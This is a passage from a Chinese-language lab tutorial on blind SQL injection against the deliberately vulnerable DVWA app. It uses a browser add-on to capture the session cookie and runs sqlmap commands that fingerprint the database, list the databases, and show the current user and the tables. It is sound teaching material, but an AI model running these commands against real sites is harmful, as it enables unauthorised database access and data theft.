![install-xpi-3.png](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231042871.png/wm)

选择安装该插件：

![install-xpi-4.png](https://doc.shiyanlou.com/document-uid113508labid2409timestamp1482231050757.png/wm)

安装成功之后会提示我们重启浏览器，重启便是。

我们再次登陆到 dvwa 中，并访问 SQL Injection(Blind) 页面，在页面中我们输入 1，我们可以看到查询结果：

![show-sqlmap-1](https://doc.shiyanlou.com/document-uid113508labid2424timestamp1482354094602.png/wm)

然后我们可以获得此时的 URL。

接着我们可以通过 cookie_manager 工具获得我们此时的 cookie 值：

![show-cookie](https://doc.shiyanlou.com/document-uid113508labid2424timestamp1482354106708.png/wm)

紧跟着我们登陆至 kali 的终端中，并输入这样的命令：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc"
```

此处的 PHPSESSID 值请输入自己的 cookie 值。

敲击回车之后，会不断提示询问我们时候继续，当时选择 y，最后我们可以看到一个很有用的消息：

![show-version](https://doc.shiyanlou.com/document-uid113508labid2424timestamp1482354123062.png/wm)

我们看到它给我们整个网站搭建所使用的平台以及相应的版本号，我们得到使用的是 MySQL 数据库。

在上面的命令之上我们添加 `--dbs` 参数，来攻击数据库，查看有哪些数据库：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" --dbs
```

![show-dbs](https://doc.shiyanlou.com/document-uid113508labid2424timestamp1482354133245.png/wm)

查看当前使用的数据库与登陆的用户：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -b --current-db --current-user
```

![show-current-db](https://doc.shiyanlou.com/document-uid113508labid2424timestamp1482354156288.png/wm)

我们当前使用的 dvwa，所以我们选择查看 dvwa 数据库中有哪些数据表：

```
sqlmap -u "http://192.168.122.102/dvwa/vulnerabilities/sqli_blind/?id=1&Submit=Submit#" --cookie="security=low; PHPSESSID=19e123724a6af7960b0838d56a4432bc" -D dvwa --tables
```

![show-tables](https://doc.shiyanlou.com/document-uid113508labid2424timestamp1482354168523.png/wm)
